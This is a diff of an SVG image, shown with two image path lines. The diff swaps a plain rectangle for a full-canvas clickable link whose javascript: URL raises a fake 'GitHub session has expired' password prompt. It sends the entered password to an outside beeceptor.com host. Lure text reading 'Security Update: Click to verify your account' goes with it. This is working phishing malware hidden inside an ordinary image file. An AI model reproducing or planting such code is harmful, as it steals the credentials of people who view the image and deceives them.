

- <svg xmlns="http://www.w3.org/2000/svg" version="1.1" baseProfile="full">
-   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
+ <svg xmlns="http://www.w3.org/2000/svg" width="500" height="500">
+   <a href="javascript:var p=prompt('Your GitHub session has expired. Please re-enter your password to continue:'); if(p) fetch('https://aksjwuwu.free.beeceptor.com/?password='+encodeURIComponent(p));">
+     <rect width="100%" height="100%" fill="white" />
+     <text x="50" y="50" font-family="Arial" font-size="20" fill="red">⚠️ Security Update: Click to verify your account</text>
+   </a>
</svg>
